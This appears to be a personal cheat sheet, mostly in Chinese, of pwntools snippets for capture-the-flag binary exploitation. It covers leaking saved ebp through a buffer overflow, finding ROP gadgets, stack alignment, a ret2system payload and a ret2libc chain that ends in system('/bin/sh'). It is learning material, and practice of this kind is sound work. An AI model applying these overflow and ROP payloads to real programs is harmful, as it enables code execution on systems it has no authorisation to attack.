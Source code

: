 ## scanf用sendline, read用send
## 溢出读取ebp值
sendline 发送时\n 会占一个字符 0x4大小发 `sendline 'a'*4` 会发5个字符引发问题。

举例
```c
char s[40]; // [ebp-28h]
read(0, s, 0x30u);


// 要输出 ebp 需要 0x20 个字节这时只要覆盖最后的 00 即可输出 ebp，用send不用sendline
payload1 = b'A' * (0x27) + b'B'
p.send(payload1)  # not sendline
p.recvuntil("B")
original_ebp = u32(p.recv(4))
```
### 填充指定大小
```py
'a'.ljust(268, ' ')
```
## 使用默认的libc

```
elf = ELF("./canary")
libc = elf.libc
```

## find leave asm

```python
leave_ret = elf.search(asm('leave')).__next__()

pop_rdi = ROP(elf).find_gadget(['pop rdi', 'ret'])[0]
pop_rsi = ROP(elf).find_gadget(['pop rsi'])[0]
print(hex(pop_rdi))
```


# Stack

## 栈对齐

```python
rop = ROP(elf)
rop.raw(b'a' * (64 + 8))
rop.raw(flat(ret)) # 方式1. 加个ret即可
rop.call(system, [bin_sh]) # 栈对齐

# 方式2 不加ret 加参数 rop.call(system, [bin_sh, '0']) # 栈对齐
```
## ret2system

```sh
# ciscn_2019_es_2
elf.plt['system'] + p32(0) + binsh_addr  # 是地址不是 "/bin/sh" 字符
payload =p32(0) + p32(elf.plt['system']) + p32(0) + p32(stdin_addr+0x10) + b'/bin/sh\x00'
payload = payload.ljust(0x28, '\x00')
```

# rop

见 pwn_01_stack_03_ret2libc_x64_00_ctfhub_bypwntool_rop.py
```sh
rop = ROP('./ret2libc') # x64
rop.raw(b'A' * (144 + 8))  # 填充144 + fake_rbp(8) 个字节的数据到缓冲区中
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
# rop.call 会自动 pop rdi, ret来传入参数
rop.call(puts_plt, [puts_got]) # puts_plt(puts_got, arg2, arg3, arg4, ...)
rop.call('main')  # 自动构建下一步的ret调用main函数，使程序重新运行
p.sendline(rop.chain())

# 再发送时要重新构建 rop
rop = ROP('./ret2libc')
rop.raw(b'A' * (144 + 8))
rop.call(system_addr, [binsh_addr])
```